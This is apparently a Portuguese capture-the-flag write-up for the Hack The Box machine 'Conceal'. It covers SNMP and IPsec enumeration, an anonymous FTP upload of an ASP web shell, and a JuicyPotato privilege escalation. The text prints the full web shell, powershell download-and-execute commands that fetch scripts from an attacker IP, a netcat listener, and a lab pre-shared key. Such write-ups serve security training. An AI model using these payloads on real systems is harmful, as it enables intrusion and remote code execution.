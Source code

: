 Conceal
========================

# Enumeration

    sudo nmap_enum conceal.htb

Nada que ajudasse. Mas para confirmar eu executei novamente o comando:

    sudo nmap -sS -Pn conceal.htb

Nada de ajuda. Ate que tivemos a ideia de conduzir um scan de portas UDP:

    sudo nmap -sU -p 53,161,111,137,139,2049 -Pn conceal.htb

E descobrimos a porta 161 (SNMP) aberta. Obter informacoes a respeito do host alvo:

    sudo nmap -Pn -sU -sV -p 161 --script="snmp*" conceal.htb
    
![qownnotes-media-QgcvMe](../../../media/qownnotes-media-QgcvMe.png)

![qownnotes-media-cnzItG](../../../media/qownnotes-media-cnzItG.png)

    sudo nmap -Pn -sU -sV -p 161 --script="banner,(snmp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "udp_161_snmp-nmap.txt" 10.10.10.116
    
    ike-scan -M 10.10.10.116
    
    for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
    
    while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line 10.10.10.116) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
    
    snmpwalk -c public -v 1 10.10.10.116 | tee snmp_output.txt


Já encontramos um hash de senha

![qownnotes-media-oGAfWt](../../../media/qownnotes-media-oGAfWt.png)

    hashid 9C8B1A372B1878851BE2C097031B6E43

![qownnotes-media-PLVqfg](../../../media/qownnotes-media-PLVqfg.png)

    hash-identifier 9C8B1A372B1878851BE2C097031B6E43
    
![qownnotes-media-zdblZS](../../../media/qownnotes-media-zdblZS.png)

![qownnotes-media-XBloDY](../../../media/qownnotes-media-XBloDY.png)

    while read line; do (echo "Found ID: $line" && sudo ike-scan -M -A -n $line 10.10.10.116) | grep -B14 "1 returned handshake" | grep "Found ID:"; done < vpnIDs.txt

Nada disso funcionou até que achei uma ferramenta que me auxiliasse com isso:

    sudo vi /etc/ipsec.conf

Coloquei a seguinte configuração:

    conn conceal
        authby=secret
        auto=route
        keyexchange=ikev1
        ike=3des-sha1-modp1024
        left=10.10.14.4
        right=10.10.10.116
        type=transport
        esp=3des-sha1
        rightprotoport=tcp

Depois alimentei a senha em um outro arquivo:

    ─$ sudo tail /etc/ipsec.secrets                                                                                    
    # This file holds shared secrets or RSA private keys for authentication.
    
    # RSA private key for this host, authenticating it to any other host
    # which knows the public part.
            
         10.10.14.7 10.10.10.116 : PSK "Dudecake1!"  

Daqui em diante eu executei os seguintes comandos:

    sudo ipsec start
    
    sudo ipsec up conceal
    
![qownnotes-media-fxREGq](../../../media/qownnotes-media-fxREGq.png)

Ainda se tratando de enumeração, tive que constatar um detalhe importante... O scan só funciona com TCP scan (-sT), caso contrário as portas não são dentifcadas como abertas... assim como no cenário de proxies também...

![qownnotes-media-lNjwGX](../../../media/qownnotes-media-lNjwGX.png)

![qownnotes-media-DSHAuU](../../../media/qownnotes-media-DSHAuU.png)

# Exploitation

Cara, depois disso foi tranquiilo achar o vetor de ataque... Vejam os passos:

    sudo nmap -sT -sC -T5 -sV -Pn 10.10.10.116 | tee nmap_output2.txt

Com isso descubrimos duas coisas... Temos um acesso via usuário anonymous com FTP e na web temos um diretório no quall esses arquivos que subimos pelo FTP se encontram... ficou triivial

![qownnotes-media-MEPrRE](../../../media/qownnotes-media-MEPrRE.png)

    ftp -a 10.10.10.116

![qownnotes-media-BFUPbm](../../../media/qownnotes-media-BFUPbm.png)

    gobuster dir -u http://10.10.10.116 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
![qownnotes-media-MZjaWD](../../../media/qownnotes-media-MZjaWD.png)

    ftp -a 10.10.10.116
    mkdir test

![qownnotes-media-OSlWqk](../../../media/qownnotes-media-OSlWqk.png)

    firefox http://conceall.htb/upload/test
    
Notei que o diretório que criei iestava lá.. Subi algumas web shells lá, no entanto não funcionaram:

![qownnotes-media-okwnmm](../../../media/qownnotes-media-okwnmm.png)

Nenhuma dessas no print funcionaram... Então fui atrás de uma que funcionasse:

<https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp>

Alterei o payload:

    <!--
    ASP Webshell
    Working on latest IIS 
    Referance :- 
    https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
    http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
    http://www.w3schools.com/asp/
    -->
    
    
    <%
    Set oScript = Server.CreateObject("WSCRIPT.SHELL")
    Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
    Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
    Function getCommandOutput(theCommand)
        Dim objShell, objCmdExec
        Set objShell = CreateObject("WScript.Shell")
        ###########################################
        ## AQUI EU ALTEREI                        #
        ###########################################
        <!--Set objCmdExec = objshell.exec(thecommand)-->
        Set objCmdExec = objshell.exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/shell.ps1')")
        getCommandOutput = objCmdExec.StdOut.ReadAll
    end Function
    %>
    
    
    <HTML>
    <BODY>
    <FORM action="" method="GET">
    <input type="text" name="cmd" size=45 value="<%= szCMD %>">
    <input type="submit" value="Run">
    </FORM>
    <PRE>
    <%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
    <%Response.Write(Request.ServerVariables("server_name"))%>
    <p>
    <b>The server's port:</b>
    <%Response.Write(Request.ServerVariables("server_port"))%>
    </p>
    <p>
    <b>The server's software:</b>
    <%Response.Write(Request.ServerVariables("server_software"))%>
    </p>
    <p>
    <b>The server's local address:</b>
    <%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
    <% szCMD = request("cmd")
    thisDir = getCommandOutput("cmd /c" & szCMD)
    Response.Write(thisDir)%>
    </p>
    <br>
    </BODY>
    </HTML>

salvei como web.asp e mandei para o servidor:

    ftp -a 10.10.10.116
    put web.asp
    
Preparei o kali para receber as conexões:

    python -m http.server 80
    
    nc -nlvp 8081
    
 ![qownnotes-media-hrqqcU](../../../media/qownnotes-media-hrqqcU.png)

![qownnotes-media-ZQCLyq](../../../media/qownnotes-media-ZQCLyq.png)

# Privilege Escalation

Na máquina da vítima

    copy \\10.10.14.4\smb\shell.bat shell.bat
    type shell.bat
    powershell -c iex (new-object net.webclient).downloadstring('http://10.10.14.4/shell2.ps1')
    
Aqui tive que trocar o CLSID

    ./jp.exe -t * -p shell.bat -l 4444 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" 

![qownnotes-media-VvbFSu](../../../media/qownnotes-media-VvbFSu.png)

![qownnotes-media-hbwSbX](../../../media/qownnotes-media-hbwSbX.png)
